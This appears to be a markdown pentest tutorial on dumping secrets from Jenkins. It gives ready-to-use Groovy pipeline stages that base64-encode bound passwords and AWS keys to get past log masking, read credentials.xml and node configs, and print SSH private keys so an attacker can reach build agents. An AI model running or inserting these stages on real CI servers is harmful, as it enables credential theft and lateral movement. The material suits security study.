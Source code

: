 # Credentials Dumping

## Credentials in Text fields in Credentials List
- We can find the list of credentials name and id at http://host:ip/credentials/
- While this sounds very hypothetical, it is very much real to find credentials in text and name section.
- Possible reason for rewriting credentials in credentials description makes it easier to remember purpose, or for making debugging easy.

## Dumping credentials from logs

- Build logs are generated from the build output.
- In certain cases depending on how the pipeline is created, credentials can get logged in the build output
<img src="buildlog-password1.png">

## Credentials Dumping from pipeline

- We can store various kinds of credentials in Jenkins ( username:password, AWS credential, secret file, secret text, Github credentials, certificate )
- The withCredentials() function can pass the credential id for the required secret and that credential will be available as an environment variable.
- If there are some global credentials or credentials for the current project scope we can dump them. 
- It is important to know the name of the parameter, and if you have guessed correctly we can get the parameter id from here ( http://host:ip/credentials/ )
- Credentials Bindings ( https://www.jenkins.io/doc/pipeline/steps/credentials-binding/ )

- Dumping Username:Password
``` Groovy
stage('Credential Dumping') {
            steps {
                 withCredentials(
                    [usernameColonPassword(credentialsId: '3b258e73-5e16-4338-883e-7a24927aefe1', variable: 'USERPASS')]
                ) {
                    sh '''
                        echo "$USERPASS" | base64
                    '''
                }
            }
        }
```
- Dumping AWS Keys ( References : https://stackoverflow.com/questions/53859575/jenkinsfile-access-aws-credentials )
```
        stage('Credential Dumping') {
            steps {
                 withCredentials([[$class: 'AmazonWebServicesCredentialsBinding',credentialsId: "8ada641e-429c-4547-9921-a1581dbf86ef",accessKeyVariable: 'AWS_ACCESS_KEY_ID',secretKeyVariable: 'AWS_SECRET_ACCESS_KEY'
]]) {
                    sh '''
                        echo "$AWS_ACCESS_KEY_ID" | base64
                    '''
                }
            }
        }
```        

### Credential ID Dumping

- Imagine we don't have access to  ```http://host:ip/credentials/``` to list the credentials id
- We can either look through the code repository hunting for these id or we need a piece of luck we can use Built-In executor
- When ```# of exectors``` in ```Configure System``` is set to non-zero, we can run builds on the controller, which means we have access to the controllers file system.
- Reference - https://www.codurance.com/publications/2019/05/30/accessing-and-dumping-jenkins-credentials
``` Groovy
        stage('Identifier Dumping') {
            steps {
                 sh '''
                   cat $JENKINS_HOME/credentials.xml | grep "<id>"
                 '''
            }
        }
```

<img src="credential-id-dumping.png">

### Credentials & Configuration Dumping Build Agents Information

- This will be somewhat a borderline between credential dumping and lateral movement/backdooring.
- If the Jenkins Controller use SSH to the build agents we can try to dump those ssh keys and get access to the build agents.
- If some fields are not entered during configuration, then they might throw error while calling  withCredentials(sshUserPrivateKey) ( as I have not used paraphrase , trying to dump paraphrase would throw error )
- So we need luck here again as configuration files are stored in controller. 
   - Step 1 : Dump the ssh identifiers
   - Step 2 : Dump the ssh keys ( Reference : https://www.codurance.com/publications/2019/05/30/accessing-and-dumping-jenkins-credentials )
   - Step 3 : Dump the nodes configuration ( note : the path to the Worker-Node is found through traversing the nodes under $JENKINS_HOME/nodes)
   - Step 4 : Use the user-name, and hostname and ssh-key to login to the build agent
``` Groovy
        stage('Identifier Dumping') {
            steps {
                 sh '''
                   cat $JENKINS_HOME/credentials.xml | grep "<id>"
                 '''
            }
        }
        
    stage('Host Information Dumping') {
            steps {      
                  sh '''
                    cat /var/lib/jenkins/nodes/Worker-Node/config.xml
                  '''   
            }
    }
        
    stage('Dumping sshUserPrivateKey') {
        steps {
            script {
                withCredentials([sshUserPrivateKey(
                    credentialsId: 'dd0f4c9e-01dc-47c3-a0cd-3fff32e2a6cd',
                    keyFileVariable: 'keyFile',
                    passphraseVariable: 'passphrase',
                    usernameVariable: 'username')
                ]){
                    print 'keyFile=' + keyFile
                    print 'username=' + username
                    print 'keyFile.collect { it }=' + keyFile.collect { it }
            
                    print 'username.collect { it }=' + username.collect { it }
                    print 'keyFileContent=' + readFile(keyFile)
                }
            }
        }
    }
```

<img src="credential-host-configuration.png">
<img src="">


## Credentials Dumping from Script Console

## References
- https://www.codurance.com/publications/2019/05/30/accessing-and-dumping-jenkins-credentials 
- https://www.jenkins.io/blog/2019/02/21/credentials-masking/
